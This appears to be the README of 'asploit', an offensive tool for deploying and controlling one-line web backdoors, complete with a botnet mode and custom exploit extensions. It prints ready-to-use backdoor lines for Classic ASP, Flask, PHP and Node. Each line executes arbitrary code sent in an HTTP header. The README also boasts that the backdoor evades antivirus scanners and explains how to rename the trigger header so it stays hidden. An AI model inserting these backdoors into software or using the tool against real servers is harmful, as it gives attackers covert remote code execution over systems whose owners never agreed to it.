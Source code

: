 # asploit
This tool allows you to deploy and exploit backdoors with one line of code in Classic ASP, Flask, NodeJS, and PHP servers.

As of April 9, 2024, the backdoor is not detected by any of the malware scanners on [VirusTotal](https://www.virustotal.com/gui/file/ea41fc39434119f35c84308b78f9d7925eb754fbc1ef24e5253a7c5d04446502).

Custom extensions can be created and installed to control any backdoored server.
# Command and Controller
## Setup
Install the prerequisites with `pip install -r requirement.txt` in the `src` folder.

If you're on Windows, run `pip install -r windows_requirements.txt`.
## Starting the Controller
The controller runs on Python. To start, run `main.py` in the `src` folder.
## Help
Type `help` to list all commands in the current shell. Changes depending on whether or not you've entered a botnet or exploit shell.
## Botnet Controlling
To control multiple backdoors at once, run `botnet` outside of an exploit shell to enter the botnet mode.
## Custom Backdoors/Exploits
### Loading Extensions
Load extensions using the `loadext` command before entering an exploit shell.

Run `help loadext` for more details.
### Creating Extensions
To make a custom exploit/extension, create a Python module containing a class/classes that extends the ExploitProcessor class.

View the `PHPExploitProcessor` in the `src` folder for an example of the implementation.
# Backdoor
## Backdoor Creation Script
Use the `create_backdoor.sh` script to generate the one line backdoor. The following is for reference.
### Classic ASP
Add the following line to the top of the file you want to have the backdoor
```
<% If request.servervariables("EXPLOIT") <> "" Then:execute(request.servervariables("EXPLOIT")):response.end:End If %>
```
### Flask
Add the following line to the top of the endpoint you want to have the backdoor
```
if request.headers.get('EXPLOIT'): global r;exec(__import__('base64').b64decode(request.headers.get('EXPLOIT').encode()).decode());return r;
```
### PHP
Add the following line to the top of the endpoint you want to have the backdoor
```
isset($_SERVER["HTTP_EXPLOIT"]) and eval($_SERVER["HTTP_EXPLOIT"]);
```
### Node
Add the following line to the endpoint you want to have the backdoor
```
if (req.headers?.exploit) return (eval('let r=res;let i=req;'+req.headers?.exploit));
```
Replace `res` with the `ServerResponse` parameter name, and replace `req` with the `IncomingRequest` parameter name.
#### Note
Only works if `fs` and `{ execSync } from 'child_process` is imported.

So in some cases, the backdoor may technically be up to three lines.
### Notes
Any area where `EXPLOIT` or `exploit` is referenced can be replaced with any custom HTTP header (eg. for PHP, `HTTP_EXPLOIT` -> `HTTP_ANYTHINGYOUWANT`).
# Contributing
Any help in this project would be appreciated, and feel free to make pull requests for any custom extensions you create.
# Thank You
This repository was inspired by [PHPSPLOIT](https://github.com/nil0x42/phpsploit).
